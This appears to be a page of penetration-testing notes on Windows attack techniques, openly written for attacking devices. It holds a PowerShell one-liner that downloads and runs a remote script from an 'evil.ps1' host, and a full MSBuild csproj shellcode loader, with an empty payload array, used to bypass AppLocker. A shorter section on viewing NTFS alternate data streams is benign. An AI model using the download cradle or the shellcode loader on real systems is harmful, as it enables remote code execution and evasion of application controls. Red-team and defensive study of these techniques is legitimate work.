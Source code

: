 # Windows

## Windows Registry

## Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

[http://pwnwiki.io/\#!presence/windows/blind.md](http://pwnwiki.io/#!presence/windows/blind.md)

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

### MSBuild

We can use MSBuild to execute arbitrary shellcode. The Cn33liz [MSBuildShell ](https://github.com/Cn33liz/MSBuildShell)is one such example. To compile a `csproj` file we use:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe test.csproj
```

An example csproj file to include shellcode within is:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
	  	byte[] shellcode = new byte[351] {};
	  	UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## Alternate Data Streams

This is more a  feature of the NTFS file system than it is a Windows feature, but it's important to understand from both a red-team and blue-team perspective.  

These are also disturbingly common in CTF's through the security via obscurity, so we need some method of viewing and potentially executing these alternate data streams.  To list all alternate data streams 

```text
dir /R
```

### Powershell

```bash
Get-Content -path C:\Users\Booj\ads -stream *
```

We can also view individual streams using

```text
Get-Content -path C:\Users\Booj\ads -stream <streamname>
```

### Windows Pre-Vista

In Windows prior to Vista, there's unfortunately no easy way of viewing these streams in default Windows without a GUI access.  In an engagement this may not be entirely practical.

The best version, working on XP, I found to be [LADS](https://www.aldeid.com/wiki/LADS), but a number of the links online appear to be dead.  The [Web Archive](http://web.archive.org/web/20150602054446/http://www.heysoft.de/download/lads.zip) version is still up so acquiring a copy is still possible.

